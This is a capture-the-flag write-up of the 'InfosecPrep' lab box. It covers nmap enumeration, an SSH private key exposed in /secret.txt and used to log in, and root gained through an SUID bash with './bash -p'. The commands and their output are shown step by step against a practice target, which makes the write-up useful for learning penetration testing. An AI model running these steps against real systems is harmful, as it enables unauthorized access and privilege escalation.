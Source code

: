 # PG Play - InfosecPrep

#### Ip: 192.168.166.89
#### Name: InfosecPrep
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ sudo nmap -p-  --min-rate 10000 192.168.166.89 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 12:01 CDT
Nmap scan report for 192.168.166.89
Host is up (0.079s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91ba0dd43905e31355578f1b4690dbe4 (RSA)
|   256 0f35d1a131f2f6aa75e81701e71ed1d5 (ECDSA)
|_  256 aff153ea7b4dd7fad8de0df228fc86d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=9/1%Time=64F218EB%P=aarch64-unknown-linux-gn
SF:u%r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(H
SF:TTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DN
SF:SVersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequest
SF:TCP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a
SF:\x0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x0
SF:8\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerC
SF:ookie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20mess
SF:age\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProg
SF:Neg,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDSt
SF:ring,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NC
SF:P,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x0
SF:5\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.15 seconds

```

Heading to the site we see it is tunning WordPress:

![site.png](../assets/infosecprep_assets/site.png)

Taking a look at `/secret.txt` listed in the Nmap output we find some base64 encoded text:

![secret.png](../assets/infosecprep_assets/secret.png)

We can copy this into https://gchq.github.io/CyberChef for decoding and we find it's actually an SSH key!

![chef.png](../assets/infosecprep_assets/chef.png)

Back on the WordPress site we find in the instructions `Oh yea! Almost forgot the only user on this box is “oscp”.`

After copying the SSH key into a file called id_rsa, we can use it to SSH in as user oscp:

### Exploitation

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ chmod 600 id_rsa                                      
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ ssh -i id_rsa oscp@192.168.166.89                     
The authenticity of host '192.168.166.89 (192.168.166.89)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.166.89' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 01 Sep 2023 05:05:35 PM UTC

  System load:  0.0                Processes:             211
  Usage of /:   25.3% of 19.56GB   Users logged in:       0
  Memory usage: 60%                IPv4 address for eth0: 192.168.166.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ whoami
oscp
-bash-5.0$ hostname
oscp
```

We can now read the local.txt file:

![user_flag.png](../assets/infosecprep_assets/user_flag.png)

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

![transfer.png](../assets/infosecprep_assets/transfer.png)

Cool, LinPEAS finds that bash has the SUID bit set:

![bash.png](../assets/infosecprep_assets/bash.png)

This should make for a really easy privesc.

Lets head over to https://gtfobins.github.io/gtfobins/bash/#suid and grab the command we'll need:

![gtfo.png](../assets/infosecprep_assets/gtfo.png)

We can run it just as GTFObins says:

```text
bash-5.0$ cd /usr/bin
bash-5.0$ ./bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
```

We can now grab the final flag of the challenge:

![root_flag.png](../assets/infosecprep_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------
